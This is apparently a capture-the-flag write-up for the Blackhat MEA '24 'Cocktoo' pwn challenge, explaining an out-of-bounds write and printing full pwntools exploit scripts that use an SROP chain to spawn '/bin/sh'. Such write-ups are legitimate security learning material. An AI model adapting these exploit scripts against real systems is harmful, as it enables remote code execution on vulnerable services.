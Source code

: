 ```yaml
---
title: Blackhat MEA '24 Quals - Pwn - Cocktoo
date: '2024-09-02'
tags: ['blackhatmea24', 'rop', 'execve']
draft: false
summary: Utilizing an out-of-bound write to gain RIP control and then use a gadget to perform execve syscall
---
```


## Challenge Description

![alt text](/static/writeups/blackhatmea24-quals/image-1.png)

## Solution

This was the easy pwn challenge in BHMEA-24 quals. In this challenge, we were provided with a binary that had the following mitigations:

```
[*] '/home/theflash2k/Documents/CTFs/BHMEA24/pwn/cucktoo/cockatoo'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
    Debuginfo:  Yes
```

Looking at the disassembly:

```c:disassembly
int __fastcall main(int argc, const char **argv, const char **envp)
{
  __int64 v3; // rax
  __int64 v4; // rax
  char v6[256]; // [rsp+0h] [rbp-110h] BYREF
  __int64 v7; // [rsp+100h] [rbp-10h]
  unsigned __int64 v8; // [rsp+108h] [rbp-8h]

  v8 = __readfsqword(0x28u);
  memset(v6, 0, 0x108uLL);
  while ( read(0LL, &v6[v7], 1LL) == 1 && v6[v7] != 10 )
  {
    v3 = v7++;
    if ( v3 == 256 )
      goto LABEL_6;
  }
  v6[v7 + 1] = 0;
LABEL_6:
  v4 = strlen(v6);
  write(1LL, v6, v4);
  return 0;
}
```

In this function, we have a buffer of `0x100` size called `v6` and after that, there is another variable which will hold the size called `v7`.

Looking at the code: `memset(v6, 0, 0x108uLL);`, what this will do is simply empty the `v6` buffer. But since the size is `0x108`, it will also empty the `v7` and set the size to 0.

Looking at the condition in while loop:

```c
while ( read(0LL, &v6[v7], 1LL) == 1 && v6[v7] != 10 )
```

We can see that, it will simply read 1-byte into the `v6` buffer at index `v7` and the data should not be `10` i.e. `\n`.

The only problem here is that there exists the canary. Let's try and debug this program in GDB to see how it behaves when we give it a larger input.

Looking at the template we have:

```py:exploit.py
#!/usr/bin/env python3

from pwn import *
context.terminal = ["tmux", "splitw", "-h"]

encode = lambda e: e if type(e) == bytes else str(e).encode()
hexleak = lambda l: int(l[:-1] if l[-1] == b'\n' else l, 16)
fixleak = lambda l: unpack((l[:-1] if l[-1] == b'\n' else l).ljust(8, b"\x00"))

exe = "./cockatoo"
elf = context.binary = ELF(exe)
libc = elf.libc
io = remote(sys.argv[1], int(sys.argv[2])
    ) if args.REMOTE else process(argv=[exe], aslr=False)
if args.GDB: gdb.attach(io, """
    b *main+188
""")

payload = flat(
    cyclic(0x100, n=8)
)
io.sendline(payload)

io.interactive()
```

Now, here we can see what's in the RSP:

![alt text](/static/writeups/blackhatmea24-quals/image-2.png)

We overwrote the last byte of the canary:

![alt text](/static/writeups/blackhatmea24-quals/image-3.png)

However, due to this line of code:

```c
v6[v7 + 1] = 0;
```

It will set the last byte of the canary to NULL. Hence returning the canary back to its original state.

## Overwriting RIP and gaining code execution

What we do is simply send `0x17` and it will RIP control.

> Honestly, I do not know why it skipped over the canary, if you know, please let me know. I just debugged it and it just worked 😭😭😭

```py
payload = flat(
    cyclic(0x100, n=8),
    b"\x17",
    b"AAAAAAAA"
)
io.sendline(payload)
```

![alt text](/static/writeups/blackhatmea24-quals/image.png)

After this, we start looking for gadgets. Some of the gadgets that we find were useful are:

![alt text](/static/writeups/blackhatmea24-quals/image-4.png)

> My command `gadget` missed one useful gadget: `syscall ; ret` (because it using ROPGadget under the hood). So, using `ropper`:

```
0x0000000000401383: syscall;
0x0000000000401a8b: syscall; ret;
```

At this point, I used two SROP payloads.

1. To write `/bin/sh` in the BSS section
2. To call execve.

Since we have the `syscall; ret` gadget, it became really easy.

The first stub would do the following:

```
RAX = 0xF
```

which would invoke the Sigreturn allowing us to write the `/bin/sh` string in the bss. What I did after that is simply store the next ROP chain in the `bss+8`, and in the previous frame, set this address to be equal to RSP. Essentially creating this as the stack and controlling RIP.

So, the final payload becomes:

```py:exploit.py
#!/usr/bin/env python3

from pwn import *
context.terminal = ["tmux", "splitw", "-h"]

encode = lambda e: e if type(e) == bytes else str(e).encode()
hexleak = lambda l: int(l[:-1] if l[-1] == b'\n' else l, 16)
fixleak = lambda l: unpack((l[:-1] if l[-1] == b'\n' else l).ljust(8, b"\x00"))

exe = "./cockatoo"
elf = context.binary = ELF(exe)
libc = elf.libc
io = remote(sys.argv[1], int(sys.argv[2])
    ) if args.REMOTE else process(argv=[exe], aslr=False)
if args.GDB: gdb.attach(io, """
    b *main+188
""")

POP_RAX = 0x0000000000401001
SYSCALL_RET = 0x0000000000401a8b

frame_read = SigreturnFrame()
frame_read.rax = 0x0
frame_read.rdi = 0x0
frame_read.rsi = elf.bss()
frame_read.rdx = 0x100
frame_read.rsp = elf.bss() + 0x8
frame_read.rip = SYSCALL_RET

frame_execve = SigreturnFrame()
frame_execve.rax = 0x3b
frame_execve.rdi = elf.bss()
frame_execve.rsi = 0x0
frame_execve.rdx = 0x0
frame_execve.rip = SYSCALL_RET

payload = flat(
    cyclic(0x100, n=8),
    b"\x17",
    POP_RAX,
    0xf,
    SYSCALL_RET,
    frame_read
)

io.sendline(payload)
time.sleep(0.5)

payload_2 = flat(
    b"/bin/sh\x00",
    POP_RAX,
    0xf,
    SYSCALL_RET,
    frame_execve
)
io.sendline(payload_2)

io.interactive()
```

![alt text](/static/writeups/blackhatmea24-quals/image-6.png)

Overall, the challenge was indeed easy, but I still do not get the actual idea as to how we were able to bypass the canary and directly overwrite the RIP.
